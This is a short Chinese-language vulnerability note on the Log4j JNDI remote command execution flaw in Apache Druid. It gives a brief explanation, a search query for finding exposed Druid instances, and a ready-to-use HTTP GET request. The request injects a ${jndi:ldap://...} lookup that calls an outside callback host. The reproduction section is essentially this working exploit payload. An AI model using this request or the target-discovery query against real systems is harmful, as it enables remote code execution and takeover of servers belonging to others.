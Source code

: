 # Apace Druid存在Log4j 远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(36, 41, 46);">Apache Druid是一个实时分析型数据库，旨在对大型数据集进行快速的查询分析（"OLAP"查询)。Druid最常被当做数据库来用以支持实时摄取、高性能查询和高稳定运行的应用场景，同时，Druid也通常被用来助力分析型应用的图形化界面，或者当做需要快速聚合的高并发后端API，Druid最适合应用于面向事件类型的数据。Log4j是Apache的一个开源项目，该漏洞产生的原因在于Log4j在记录日志的过程中会对日志内容进行判断，如果内容中包含了${，则Log4j会认为此字符属于JNDI远程加载类的地址。Apache Druid 使用了该项目进行记录日志，攻击者通过构造恶意的代码即可利用该漏洞，从而导致服务器权限丢失</font>

# <font style="color:rgb(36, 41, 46);">二、影响版本</font>
+ Apache Druid

# 三、资产测绘
```java
title="Apache Druid"
```

![1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289.png](./img/x80mTfAxrWUUsm3N/1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289-632900.png)

# 四、漏洞复现
```java
GET /druid/coordinator/v1/lookups/config/${jndi:ldap://pvibhhxnwt.dgrh3.cn} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Content-Length: 995
Connection: close
```

![1718118782988-83dafd63-a369-410f-9799-f0866733f9f1.png](./img/x80mTfAxrWUUsm3N/1718118782988-83dafd63-a369-410f-9799-f0866733f9f1-055296.png)



> 更新: 2024-06-17 09:22:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ua1fln02hehbuf7g>